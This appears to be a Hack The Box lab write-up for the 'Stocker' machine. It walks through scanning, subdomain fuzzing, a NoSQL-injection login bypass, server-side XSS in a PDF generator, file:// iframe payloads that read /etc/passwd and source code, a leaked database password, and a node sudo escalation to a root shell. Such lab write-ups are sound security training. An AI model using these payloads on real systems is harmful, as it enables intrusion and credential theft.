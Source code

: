 # Stocker - HTB(Easy)
## Itay Nafrin | January 21st, 2023
### IP = 10.10.11.196

### NMAP
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3d:12:97:1d:86:bc:16:16:83:60:8f:4f:06:e6:d5:4e (RSA)
|   256 7c:4d:1a:78:68:ce:12:00:df:49:10:37:f9:ad:17:4f (ECDSA)
|_  256 dd:97:80:50:a5:ba:cd:7d:55:e8:27:ed:28:fd:aa:3b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://stocker.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Subdomain
`$ wfuzz -c -f sub-fighter -w /usr/share/wordlists/SecLists-master/Discovery/DNS/subdomains-top1million-110000.txt -u 'http://stocker.htb' -H "Host: FUZZ.stocker.htb" --hw 93`

```
Target: http://stocker.htb/                               
Total requests: 114441                                                                                                             
==================================================================                                                                 
ID    Response   Lines      Word         Chars          Request                                                                    
==================================================================                                                                 
00019:  C=302      0 L         4 W           28 Ch        "dev"
                                
Total time: 0             
Processed Requests: 114441                                       
Filtered Requests: 114440                                        
Requests/sec.: 0

```

### Enumeration 

After discovering the 'dev' subdomain we enter it to our /etc/hosts after that I entered it in the url and it directed me to a login form after playing with it a little bit trying some default creds, sqli, etc; I checked my wappalyezer extension that said that the web app runs on express meaning node js, so I thought to myself if it's using node it probably uses mongodb as the database manager, so I decided to do some nosql injection techniques. 

#### NoSql Injection

Well as you may know or not(if not read this interesting article about nosqli and how it works https://infosecwriteups.com/nosql-injection-8732c2140576) when injecting nosql you can do it in two ways one with the php adaption where you manipulate the post parameters, and the second is with the json technique where you change the content type to `application/json` and by that the web app will get json parameters. So how to do it:
<br/>
![nosqli](captures/nosqli.png)

### Keep Enumerating 

After entering the site you got a pretty straight forward site, you add an item to the cart and you purchase it, after purchasing you get a pdf certificate that you indeed purchased the item/s, this is the interesting part. When I see a pdf first thing that comes to mined is Server Side XSS so lets try.

<br/>

![pdfi](captures/pdfi.png)

Did the same thing with this payload: `<iframe height=750 width=500 src=file:///etc/passwd></iframe>`
got this:

<br/>

![etc-passwd](captures/etc-passwd.png)

<b>users: root, angoose.</b>

Now, to retrieve the password it was a little more difficult, if you know the linux file system you should know that web apps are located in the `/var/www` directory, now we know that there is a subdomain called 'dev' in the domain so maybe there is a directory that stores the dev subdomains data, we actually got a hint for this in the login part because if you enter this payload: `{"username": {"$gt": undefined}, "password": {"$gt": undefined}}` you get an error and over there you get errors from the directory: `/var/www/dev`. So after we know that we have a dev directory confirmed, now maybe there's a `index.js` because it's a common file in a web directory, so let's check it. Payload: `<iframe height=750 width=600 src=file:///var/www/dev/index.js></iframe>`. There is a file, and in that file a possible password because if you pay attention in the top of the file you can see what might be a password in the line: `const dbURI="mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?authSource=admin&w=1";`
<br/>

### SSH Login

![ssh-login](captures/ssh.png)

### PrivEsc

Now after logging in and roaming a little bit in the system I want to escalate my privileges so first thing I do, `sudo -l` which displays me my sudo permissions.
<br/>

![sudo-l](captures/sudo.png)

<br/>

Now after seeing this we know we can execute javascript files from the folder `/usr/local/scripts` we can manipulate this by just navigating(by using ../) to which ever file we want after we write the prefix `/usr/local/scripts`. But we're not finished because we want a root shell how we get let's use the internet for that. Quick search for node in GTFObins and found the command `require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})`. Now lets implement this in our shell.

<br/>

![root](captures/root.png)
